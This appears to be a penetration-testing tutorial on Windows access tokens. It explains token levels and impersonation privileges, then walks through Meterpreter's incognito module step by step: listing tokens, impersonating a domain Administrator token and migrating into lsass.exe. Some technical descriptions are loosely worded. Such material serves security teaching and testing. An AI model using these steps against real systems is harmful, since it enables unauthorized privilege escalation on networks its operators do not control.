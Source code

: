 # Windows Access Tokens

## Explanation

- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).

- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed.

- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

- Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.

- An access token will typically be assigned one of the following security levels :
    - Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
    - Delegate-level tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.

- Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.

- Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.

- The following are the privileges that are required for a successful impersonation attack : 
    - SeAssignPrimaryToken : This allows a user to impersonate tokens.
    - SeCreateToken : This allows a user to create an arbitrary token with administrative privileges.
    - SeImpersonatePrivilege : This allows a user to create a process under the security context of another user typically with administrative privileges.

## Exploit

- Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.

- We can use the incognito module to display a list of available tokens that we can impersonate.

1. After having first unprivileged access to the victim host, load incognito module : 
```
meterpreter > getuid
meterpreter > load incognito
```

2. List all available user tokens :
```
meterpreter > list_tokens -u
```

3. If an administrator user token is present, use impersonate_token command : 
```
meterpreter > impersonate_token DOMAIN-CORP\\Administrator
```

4. View your new administrator privileges : 
```
meterpreter > getuid
meterpreter > getprivs
```

5. Migrate to other processus : 
```
meterpreter > ps
meterpreter > migrate -N lsass.exe
```